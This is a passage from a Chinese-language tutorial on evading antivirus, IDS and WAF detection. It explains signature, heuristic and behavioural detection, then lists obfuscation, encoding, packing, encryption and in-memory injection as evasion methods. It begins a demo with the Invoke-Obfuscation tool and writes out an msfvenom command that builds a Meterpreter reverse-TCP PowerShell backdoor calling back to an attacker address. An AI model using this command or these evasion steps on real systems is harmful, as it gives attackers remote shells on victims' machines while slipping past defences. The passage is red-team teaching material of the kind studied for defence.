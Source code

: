 所以如果考虑的更为完善，实际工作中需要考虑到如何规避杀毒软件、IDS、WAF等等的内容。

1.1 AV检测方式

在杀毒软件中，通常利用签名、启发式和基于行为检测。

```
1. 基于特征码的检测-- AV签名是用来便是恶意软件的特征。所以在免杀中需要确保payload与数据库中的任何一直签名不匹配。
2. 基于启发式的检测-- 依照规则或决策来确定二进制文件是否是恶意的。它还查找代码或程序调用中的特定模式。
3. 基于行为检测-- 通过监控识别恶意软件的相关内容，如通过监测运行的程序行为，以发现是否有病毒行为。
```

1.2 逃避技术

1.2.1 硬盘免杀

```
混淆--混淆是指隐藏重要的、有价值的或关键的东西的过程。混淆重组代码，以使其更难分析。
编码--编码数据是涉及使用方案将数据更改为新格式的过程。编码是一个可逆的过程；数据可以编码为新格式并解码为其原始格式。
打包--生成具有较小尺寸的新二进制结构的可执行文件，从而为负载提供新的签名。
加密--加密代码或有效负载并解密内存中的加密代码。解密密钥/函数通常存储在存stub中。
```

1.2.2 内存免杀

```
- 专注于内存操作，不将文件写入磁盘。 
- 通过利用各种WindowsAPIs将有效负载注入进程。 
- Payload然后在单独的线程中在内存中执行。
```



## 二 免杀演示

### 使用Invoke-Obfuscation进行免杀

Invoke-Obfuscation是一款PowerShell混淆工具，可以将PowerShell脚本加密，使得它的检测和分析变得更加困难。
该工具包含多种加密方法，可以单独使用也可以结合使用，以提高混淆的效果。

项目地址：https://github.com/danielbohannon/Invoke-Obfuscation

Invoke-Obfuscation的使用：

生成msf的powershell的后门：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.0.2 LPORT=4444 --arch x64 --platform windows -f psh-reflection -o shell.ps1
```

![image-20230123031542312](../../images//image-20230123031542312.png)
